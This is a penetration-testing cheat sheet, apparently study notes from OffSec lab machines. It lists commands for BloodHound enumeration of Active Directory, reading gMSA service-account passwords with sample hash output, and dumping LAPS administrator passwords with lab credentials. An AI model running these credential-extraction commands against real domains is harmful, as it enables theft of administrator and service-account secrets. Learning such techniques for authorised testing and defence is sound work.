 #### BloodHound
Initiation
```
Compromised machine: Import-Module .\SharpHound.ps1
Compromised machine: Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\stephanie\Desktop\

sudo neo4j stop
sudo neo4j start
kali: bloodhound
kali: username:neo4j, pass:zxdxxxxxxxxx
kali: drag zip file into bloodhound

or sharphound.exe -c All --outputdirectory C:\Users\f.frizzle\
```
Compatible Combination:
```
neo4j 4.4.26
bloodhound 4.3.1
SharpHound.ps1 1.1.1
```
#### Bloodhound-python
This will extract all json files if you have credential but no shell
```
bloodhound-python --dns-tcp -ns $IP -d hutch.offsec -u 'fmcsorley' -p 'CrabSharkJellyfish192' -c all
```
#### Abusing Read GMSAP Password
```
Get-ADServiceAccount -Filter * | where-object {$_.ObjectClass -eq "msDS-GroupManagedServiceAccount"}
Get-ADServiceAccount -Filter {name -eq 'svc_apache'} -Properties * | Select CN,DNSHostName,DistinguishedName,MemberOf,Created,LastLogonDate,PasswordLastSet,msDS-ManagedPasswordInterval,PrincipalsAllowedToDelegateToAccount,PrincipalsAllowedToRetrieveManagedPassword,ServicePrincipalNames
.\GMSAPasswordReader.exe --accountname=SVC_APACHE

[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 83AC7FECFBF44780E3AAF5D04DD368A5
[*]       aes128_cts_hmac_sha1 : 08E643C43F775FAC782EDBB04DD40541
[*]       aes256_cts_hmac_sha1 : 588C2BB865E771ECAADCB48ECCF4BCBCD421BF329B0133A213C83086F1A2E3D7
[*]       des_cbc_md5          : 9E340723700454E9

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 0AFF0D9DFA8B436E6688697B0A47B50C (NTLM Hash)
[*]       aes128_cts_hmac_sha1 : C958BEE96DEE78F9035F460B91EC6D86
[*]       aes256_cts_hmac_sha1 : D3C18DAF21128CAFEAECE5BFF6599A0A4DFB2E9BE22F6CFE13677688B0A34988
[*]       des_cbc_md5          : 0804169DCECB6102
```
#### Abusing ReadLaps Password
>LAPS allows you to manage the local Administrator password (which is randomized, unique, and changed regularly) on domain-joined computers. These passwords are centrally stored in Active Directory and restricted to authorized users using ACLs. 
```
lapsdumper -u fmcsorley -p CrabSharkJellyfish192 -d hutch.offsec -l 192.168.153.122
lapsdumper -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc host
ldapsearch -v -c -D fmcsorley@hutch.offsec -w CrabSharkJellyfish192 -b "DC=hutch,DC=offsec" -H ldap://192.168.153.122 "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```